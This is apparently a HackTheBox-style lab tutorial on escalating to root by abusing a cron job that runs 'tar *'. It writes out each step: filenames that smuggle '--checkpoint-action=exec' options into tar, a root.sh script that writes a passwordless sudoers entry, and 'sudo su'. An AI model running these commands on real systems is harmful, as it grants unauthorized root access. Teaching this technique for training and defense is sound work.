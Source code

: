 
## What is a Wildcard?

A **wildcard** is a symbol that the shell uses to match filenames.

Some examples:

|Symbol|Meaning|
|---|---|
|`*`|matches **everything** (any file names)|
|`?`|matches **one** character|
|`[a-z]`|matches **one letter in that range**|
|`~`|means **home directory**|

## The Trick: Using Wildcards to Trick `tar`
The `tar` command is used to compress files (make archives).

It has a special hidden feature in its **manual (`man tar`)**:
```sh
--checkpoint=1
--checkpoint-action=exec=sh root.sh
```

This tells tar to:
    Make a checkpoint every 1 file it processes.
    Then execute a command: sh root.sh
If a cron job is using tar * to archive everything in a folder, we can abuse that * wildcard to make it run our own fake filenames that behave like command-line options.


___

### 🧨 The Scenario: Cron Job Running as Root

There’s a cron job (automated task) like this:
```sh
`*/1 * * * * cd /home/htb-student && tar -zcf backup.tar.gz *`
```
It runs `tar *` every minute, as **root**, to back up files.
That `*` means: include all files in the folder.
You can sneak in fake files that:
- Act like options: `--checkpoint`, `--checkpoint-action`
- Run your script: `root.sh`

### 🧪 The Attack Step-by-Step

1. **Create a malicious script** (root.sh):
```sh
`echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh`
```

> This gives you **sudo with no password**.

2. **Create fake tar options as filenames**:
```sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh root.sh"
```

Now, in your folder you have:
- `--checkpoint=1` (fake file)
- `--checkpoint-action=exec=sh root.sh` (another fake file)
- `root.sh` (real malicious script)

3. **Wait for the cron job to run again.**
It sees `*`, so it includes all these "files". But really, they're treated as **options**, so the `tar` command ends up **running your script** as **root**!

### 🧑‍💻 After the Cron Job Runs

You check your sudo permissions:
```bash
sudo -l
```

And boom 💥 — it says:

```sh
(root) NOPASSWD: ALL
```

Now you can do:

```sh
sudo su
```

And you're root.